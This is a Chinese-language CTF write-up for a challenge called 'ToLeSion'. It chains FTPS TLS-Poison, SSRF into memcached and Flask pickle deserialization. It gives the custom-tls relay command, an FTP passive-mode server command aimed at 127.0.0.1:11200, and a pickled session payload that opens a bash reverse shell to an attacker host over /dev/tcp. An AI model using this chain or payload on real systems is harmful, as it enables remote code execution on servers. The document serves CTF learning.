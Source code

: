 # ToLeSion

这道题主要的考点是ftps的TLS-Poison + flask的pickle反序列化。

从源码可以看到，flask使用的是memcached存储session，而flask在读取memcached存储的session时会反序列化这里的内容，因此只需要向memcached写入一个恶意的session，触发反序列化即可。

那么如何向memcached写内容呢？

关于这一点，题目设置了很多的暗（ming）示：

* 标题的ToLeSion，大写字母TLS。
* memcached——经典TLS-Poison受害者。
* pycurl几乎禁用了所有的协议唯独没有禁用FTPS。
* 设置FTP_SKIP_PASV_IP为0。
  > ftp-skip-pasv-ip设置了curl不要使用被动模式下服务器提供的ip和端口，这个设置在curl 7.74.0版本之后默认是开启的，这里显式设置为0也是一个很强的暗示。

很明显，我们需要使用ftps打TLS-Poison，ssrf写memcached。

关于TLS-Poison，这里推荐一下zeddy师傅的博客，写得非常全面且详细：

* https://blog.zeddyu.info/2021/04/20/TLS-Poison/
* https://blog.zeddyu.info/2021/05/19/tls-ctf/

感谢zeddy师傅撰写了如此优秀的博客。

简单来说，当客户端使用ftps://ip:port/访问ftp服务器，ftp服务器在被动模式下向客户端指定数据传输的ip和端口，客户端连接服务器该ip和端口时会重用第一次连接的相关信息，这里就导致了ssrf。

针对TLS-Poison的利用，这里推荐一下这个github仓库：

https://github.com/jmdx/TLS-Poison。

我们可以用它来实现TLS层的解析，通过下面的命令监听8000端口并将tls解析之后应用层的内容转发给1234端口：

```shell
target/debug/custom-tls -p 8000 --verbose --certs /etc/letsencrypt/live/<your_domain>/fullchain.pem --key /etc/letsencrypt/live/<your_domain>/privkey.pem  forward 1234
```

使用redis设置payload：

```
set payload "\r\nset actfSession:whatever 0 0 <len>\n(S'/bin/bash -c \"/bin/bash -i >& /dev/tcp/<your_domain>/8080 0>&1\"'\nios\nsystem\n.\r\n"
```

经过8000端口的解析，转发到1234端口的内容就是普通的ftp请求了。在1234端口开启一个被动模式返回ip和端口是ssrf目标的ftp服务即可，针对本题就是127.0.0.1的11200端口：

```
python3 FTPserverForTLSpoison.py 1234 127.0.0.1 11200
```

控制目标机访问ftps://<your_domain>:8000/，即可触发上述TLS-Poison流程，向memcached写入序列化字符串。

最后监听8080端口，使用上述写入的session访问网站即可触发反序列化getshell。